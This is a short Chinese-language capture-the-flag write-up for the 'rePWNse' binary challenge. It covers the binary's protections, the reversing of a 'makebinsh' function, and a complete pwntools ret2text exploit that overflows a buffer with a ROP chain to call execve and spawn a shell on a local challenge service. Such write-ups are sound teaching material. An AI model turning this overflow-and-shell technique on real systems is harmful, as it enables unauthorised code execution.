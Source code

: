 # rePWNse

## 文件分析

下载`rePWNse`, NX on, PIE off, Canary off, RELRO full
ghidra分析为64位程序

## 逆向

`makebinsh`函数中有一个字母表和待输入的7位数字，易知else子句都是随机字母，难以组成目标；
而if子句和判断语句之外的cat语句可以组成目标，故得到2个等式和5个方程，整理得输入后的数组：

|idx|0|1|2|3|4|5|6|
|---|-|-|-|-|-|-|-|
|val|1|9|1|9|8|1|0|

~~这么臭的题还是不要罢~~

又发现存在`pop rdi; ret;` & `execve()`，回到了简单的ret2text

## EXPLOIT

```python
from pwn import *
sh = remote('localhost', 41053)
sh.sendline(b'1 9 1 9 8 1 0')
sh.recvuntil(b'is:') # skip
shstrAddr = int(sh.recvline()[2:9], 16)
popRdiAddr = 0x0040168e
execveAddr = 0x00401296
sh.sendline(b'0'*0x48 + p64(popRdiAddr) + p64(shstrAddr) + p64(execveAddr))
sh.interactive()
```

Done.
